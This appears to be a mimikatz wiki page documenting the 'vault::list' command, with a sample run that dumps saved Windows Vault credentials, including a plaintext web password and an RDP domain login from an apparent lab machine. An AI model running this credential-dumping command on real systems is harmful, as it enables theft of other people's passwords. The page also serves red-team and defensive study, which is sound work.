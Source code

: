 # list

`vault::list` lists saved credentials in the Windows Vault such as scheduled tasks, RDP, Internet Explorer for the current user. More information can be found at Benjamin's guide [howto-\~-scheduled-tasks-credentials](https://github.com/gentilkiwi/mimikatz/wiki/howto-\~-scheduled-tasks-credentials).

```
mimikatz # vault::list

Vault : {4bf4c442-9b8a-41a0-b380-dd4a704ddb28}
        Name       : Web Credentials
        Path       : C:\Users\m3g9tr0n\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28
        Items (1)
          0.    Internet Explorer
                Type            : {3ccd5499-87a8-4b10-a215-608888dd3b55}
                LastWritten     : 13/12/2021 21:33:59
                Flags           : 00000400
                Ressource       : [STRING] https://login.live.com/
                Identity        : [STRING] mymail@hotmail.com
                Authenticator   :
                PackageSid      :
                *Authenticator* : [STRING] MySuperDuperPass

Vault : {77bc582b-f0a6-4e15-4e80-61736b6f3b29}
        Name       : Windows Credentials
        Path       : C:\Users\m3g9tr0n\AppData\Local\Microsoft\Vault
        Items (1)
          0.    (null)
                Type            : {3e0e35be-1b77-43e7-b873-aed901b6275b}
                LastWritten     : 12/12/2021 00:39:57
                Flags           : 00000000
                Ressource       : [STRING] Domain:target=TERMSRV/192.168.0.224
                Identity        : [STRING] hacklab\m3g9tr0n
                Authenticator   :
                PackageSid      :
                *Authenticator* : [BYTE*]

                *** Domain Password ***
```
